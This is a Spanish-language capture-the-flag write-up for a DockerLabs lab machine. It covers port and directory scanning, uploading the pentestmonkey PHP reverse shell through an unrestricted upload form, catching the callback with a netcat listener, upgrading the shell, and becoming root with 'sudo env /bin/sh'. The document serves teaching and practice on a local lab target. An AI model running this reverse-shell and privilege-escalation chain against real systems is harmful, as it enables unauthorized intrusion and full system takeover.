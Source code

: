 ## WRITEUP DE LA MAQUINA BREACKMYSSH DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos con la herramienta Nmap para ver cuales estan abiertos y que servicios y caraterísiticas muestran.
```shell
└─$ nmap -sC -sV -p- -n --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br>
"-p-" Escanea todos los 65535 puertos TCP.
<br>
"-n" Desactiva la resolución de nombres DNS.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-15 11:11 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000094s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.48 seconds
```
Observamos que el puerto 80 del servicio http esta abierto, por ello al ser el unico puerto abierto por lógica intentaremos escalar por ahí. En cualquier buscador ponemos la dirección ip, en este caso 172.17.0.2, nos muestra una pagina web donde se puede subir archivos:
<br><br>
![Foto de la pagina web](/fotos/upload.JPG)
![upload](https://github.com/1A2N6K7/DockerLabs-WriteUps/assets/94070438/8206ef47-d953-4249-8299-602b767cd7ec)

<br><br><br>
Aqui se dispersa la cosa, ya que vamos a tirar por acceder a la máquina víctima subiendo un archivo php que contenga una reverse shell, para ello hay muchas formas, todas se parecen en ciertas cosas, pero en este caso la voy a hacer de una manera muy sencilla.
<br>
Pero antes de comenzar con la reverse shell, hay que averiguar donde se encuentra y como se llama el directorio donde se alamecenan los archivos que subamos.
<br>
Para ello vamos a hacer fuzzing con la herramienta gobuster (se puede hacer igual con herramientas como wfuzz entre otras)
```
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
<br>
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br>
"-x" Especifica las extensiones de archivos que Gobuster intentará agregar a cada entrada en la lista de palabras. En este caso, Gobuster probará cada palabra con las extensiones .php Esto significa que si una entrada en la lista de palabras es admin, Gobuster probará admin.php

```shell
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
Progress: 45155 / 441122 (10.24%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 48897 / 441122 (11.08%)
===============================================================
Finished
===============================================================
```
Observamos que nos saca un directorio que destaca, ya que encima muestra un enlace, hablamos del directorio "172.17.0.2/uploads/". Una vez llegados aqui volvemos al tema de la reverse shell, ahora si.
Vamos a la pagina https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php y descargamos el archivo php, lo abrimos en la terminal con alguna herramientas de edicion de texto como nano. Hay dos lineas donde pone "CHANGE THIS" ahi deberias poner la ip de vuestra máquina anfitriona y el puerto:
<br><br>
![Foto del codigo de reverse shell](/fotos/resaltado.JPG)
<br><br>
Subimos este archivo a la pagina víctima. <br>Para estar seguros de que se ha subido, con esta url  "172.17.0.2/uploads/" veremos que se encuentra el archivo almacenado:
<br><br>
![Foto de la pagina web](/fotos/dirupload.JPG)
<br><br>
Antes de ejecutar la reverse shell, tenemos que ejecutar la herramienta netcat para ponernos en escucha, siempre hay que poner obviamente el mismo puerto que hemos puesto anteriormente en el archivo php que hemos editado:

```shell
└─$ nc -lvnp 4444                       
listening on [any] 4444 ...
```
"nc" es la abreviatura de netcat, una herramienta de red que se puede usar para leer y escribir datos a través de conexiones de red utilizando los protocolos TCP o UDP.
<br>
-l: Espere conexiones entrantes en lugar de intentar conectarse a otro sistema.
<br>
-v: Muestre información detallada sobre lo que está sucediendo.
<br>
-n: No realice la resolución de nombres de host, solo use direcciones IP.
<br>
-p 4444: Escuche en el puerto 4444
<br><br>
Una vez estamos en escucha, en la url escribimos el nombre del archivo "172.17.0.2/uploads/php-reverse-shell.php", la pagina deberia quedarse en blanco cargando:

```shell
connect to [10.0.2.15] from (UNKNOWN) [172.17.0.2] 41216
Linux 4419c3b05405 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 x86_64 x86_64 GNU/Linux
 17:55:13 up  6:18,  0 users,  load average: 0.34, 0.41, 0.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
Ya somos el usuario "www-data", la idea es llegar a ser root pero antes de esto, debemos hacer el llamado "tratamiento de terminal", se refiere a mejorar la funcionalidad y usabilidad de la shell que has obtenido. Ya que cuando te conectas a una máquina víctima a través de una reverse shell, es común que la sesión no se comporte como una terminal interactiva completa. Esto puede limitar tu capacidad para usar ciertos comandos.
<br><br>
Tratamiento de terminal paso a paso:
<br><br>
1 - "script /dev/null -c bash" - El comando script inicia una sesión de terminal grabada en el archivo especificado (/dev/null en este caso, que descarta la salida). La opción -c bash ejecuta bash dentro de esta sesión.

```shell
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@4419c3b05405:/$ 
```
2 - "Control + z" - Suspende temporalmente la sesión de la shell actual y devuelve el control al shell principal, para poner la sesion en segundo plano.
<br><br>
3 - "stty raw -echo; fg" - Configura la terminal para que pase las entradas crudas (raw) y desactiva el eco (-echo), lo que significa que los caracteres que escribes no se mostrarán. Esto mejora la interacividad de la shell.

```shell
└─$ stty raw -echo; fg

[1]  + continued  nc -lvnp 4444
```
4 - "reset xterm" - Debido al paso anterior parece que la terminal se ha rayado, pero no, hay que ejecutar "reset xterm" aunque el cursor este en medio de la terminal.Este comando  restablece la terminal a sus valores predeterminados, conseguimos limpiar y reconfigura la terminal para que funcione correctamente.
<br><br>
5 - "export TERM=xterm" - Establece la variable de entorno TERM a xterm, lo que informa a los programas terminales sobre el tipo de terminal que estás usando. Conseguimos que la terminal interprete correctamente los comandos y el formato de salida.

```shell
www-data@4419c3b05405:/$ export TERM=xterm
```
6 - "export SHELL=bash" - Establece la variable de entorno SHELL a bash, lo que informa al sistema que estás utilizando bash como shell. Puede ayudar a algunos programas y scripts a comportarse correctamente, asumiendo que bash es tu shell.

```shell
www-data@4419c3b05405:/$ export SHELL=bash
```
Una vez hemos completado el "tratamiento de terminal" toca escalar privilegios. Escribimos el comando "sudo -l" el cual  permite a un usuario verificar qué comandos tienen permiso para ejecutar como superusuario (o cualquier otro usuario especificado).
<br>

```shell
www-data@4419c3b05405:/$ sudo -l
Matching Defaults entries for www-data on 4419c3b05405:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 4419c3b05405:
    (root) NOPASSWD: /usr/bin/env
```
Esta linea es la que nos interesa "(root) NOPASSWD: /usr/bin/env": significa que el usuario puede ejecutar el comando /usr/bin/env con privilegios de superusuario (root) sin necesidad de proporcionar una contraseña.
<br>
Para escalar privilegios nos aprovecharemos de "/usr/bin/env" para ser root, para ello nos metemos en la pagina https://gtfobins.github.io/#env y en la opcion de "env" pinchamos en el recuadro de "Sudo", copiamos el comando que nos aparece "sudo env /bin/sh" y ejecutamos.

```shell
www-data@4419c3b05405:/$ sudo env /bin/sh
# whoami
root
# 
```
Ya esta, estamos dentro, somos root, muchas gracias.
